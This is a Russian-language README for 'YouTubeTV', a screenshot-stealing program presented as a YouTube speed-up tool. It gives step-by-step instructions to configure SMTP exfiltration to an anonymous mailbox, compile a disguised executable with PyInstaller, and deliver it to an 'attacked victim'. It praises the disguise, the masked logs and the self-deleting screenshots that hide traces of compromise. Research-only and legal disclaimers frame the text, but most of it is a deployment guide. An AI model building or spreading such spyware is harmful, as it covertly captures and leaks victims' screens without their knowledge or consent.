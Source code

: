 <h1>YouTubeTV</h1>

YouTubeTV — программа для создания снимков экрана и их отправки на Вашу электронную почту. 

<h2>Использование</h2>

Программа создана исключительно в исследовательских целях кибербезопасности, а также для тестирования антивирусных программ. Автор не несёт ответственность за использование программ другими людьми, и (или) в каких-либо злоумышленных целях. Использование и (или) распространение данного программного обеспечения в злоумышленных целях определяет "УК РФ Статья 273. Создание, использование и распространение вредоносных компьютерных программ".

Пример использования: https://youtu.be/LvG0S5V2dYA

1. Скачайте из релиза (Releases) файлы "default.env", "YouTubeTV.py" и "YouTubeTV.png". Исполняемого файла нет, т. к. он не подойдёт для Вашего пользования. Далее описана инструкция для создания исполняемого файла для Вас.
2. Запустите "YouTubeTV.py" в любой удобной для Вас среде разработки, можно даже в Блокноте. В участке кода "Основная функция" запишите Ваш ненужный (по возможности анонимный, без имён и фамилий) адрес электронной почты. В учатске кода "Функция для отправки письма с вложением" в строке "with smtplib.SMTP_SSL('smtp.mail.ru', 465) as smtp:" запишите SMTP-сервер сервиса Вашего почтового ящика (его можно легко узнать в Интернете). Сохраните файл.
3. Запустите файл "default.env" в Блокноте и запишите Ваши учётные данные (логин и пароль) от Вашей электронной почты, указанной в пункте 2 (в основном коде программы). Сохраните файл.
4. Установите (если ранее этого не делали) "Python" отсюда: https://www.python.org/downloads/windows/.
5. Затем файлы "default.env" и "YouTubeTV.py" лучше поместить в корневую папку установленного "Python", как правило это "C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312".
6. Запустите командную строку "Windows" ("cmd") и введите команду для установки библиотеки создания (компиляции) программ "pip install pyinstaller" (все команды вводятся без кавычек!).
7. В командной строке "Windows" ("cmd") перейдите в директорию (папку) только что сохранённых файлов (проекта) командой "cd C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312".
8. Перенесите файл "YouTubeTV.png" на Рабочий стол. В командной строке "Windows" ("cmd"), находясь в указанной ранее директории (папке), пропишите команду для создания программы: "pyinstaller -F -i "C:\Users\\*Имя пользователя системы*\Desktop\YouTubeTV.png" YouTubeTV.py" (здесь путь до изображения прописывается в кавычках!). Если вдруг не создалась иконка, то переведите её в формат ".ico" здесь: https://convertio.co/ru/png-ico/ и попробуйте скомпилировать заново.
9. Дождитесь длительного процесса создания файла. После "70706 INFO: Building EXE from EXE-00.toc completed successfully." программу формата ".exe" можно будет найти в "C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312\dist".
10. Поместите файлы "default.env" и "YouTubeTV.exe" в одну директорию (папку), например на Рабочий стол. В противном случае, программа работать не будет, предупредив уведомлением об ошибке.
11. В настройках учётной записи своей электронной почты, для получения снимков, установите разрешение на использование внешними сервисами доступа к Почте по IMAP, POP, SMTP. Обычно данные настройки находятся в разделе Безопасности или подобных. Это необходимо, чтобы снимок экрана дошёл до Вас с помощью автоматической авторизации на компьютере, которая выполнится кодом программы, взяв учётные данные пользователя из файла окружения "default.env".
12. Запустите "YouTubeTV.exe" и дождитесь длительной загрузки программы. В случае слов "YouTube ускорен!" снимок Вашего экрана будет создан, сохранён в этой же директории и отправлен на Вашу электронную почту в виде письма самому себе. Не забудьте о том, что Вы обязательно должны быть подключены к Интернету. Через некоторое время снимок экрана с данной директории самоуничтожится, для удаления следов компрометации и сохранения памяти для устройства. В случае ошибок пересмотрите пункты, начиная со 2, проверьте, верно ли введены данные в файле "YouTubeTV.py" (SMTP-сервер сервиса и Ваш адрес почты) и в "default.env" (данные авторизации).
13. Таким образом, созданные файлы могут быть доставлены к атакуемой жертве, например, в корень диска, что делать категорически запрещено согласно "УК РФ Статья 273. Создание, использование и распространение вредоносных компьютерных программ": https://www.consultant.ru/document/cons_doc_LAW_10699/a4d58c1af8677d94b4fc8987c71b131f10476a76/.

<h2>Преимущества, недостатки и особенности</h2>

Преимущества программы:
1. Работоспособность.
2. Минимальное заимствование сторонних библиотек.
3. Наличие логов в замаскированном виде.
4. Маскировка программы под ускоритель YouTube, что актуально в условиях его блокировки.
5. Весь проект содержится в двух файлах форматов "*.exe" и "*.env", что позволяет легко его запускать, распространять, а также делиться.
6. Простота, стиль и читабельность кода.

Недостатки программы:
1. Очень длительная загрузка программы и возможные зависания компьютера.
2. Отсутствие маскировки и запутывания (обфускации) вредоносного кода.
3. Программа не работает в скрытом режиме, а только при запуске.
4. Помимо доставки исполняемого файла также необходима доставка файла окружения "default.env", чтобы снимок экрана дошёл до Вас, что потребует дополнительных условностей перед атакуемой жертвой.
5. В файле "default.env" должны находиться Ваши учётные данные, поэтому необходимо использование ненужной (по возможности анонимной, без имён и фамилий) электронной почты.
6. Увидев содержимое файла "default.env" жертва может зайти в Вашу электронную почту.
7. Минимальная функциональность.

(С) Емельянов Григорий Андреевич. Все права защищены. Использование (копирование, сбор, обработка, хранение и распространение) кода программы и программы без указания автора запрещено.
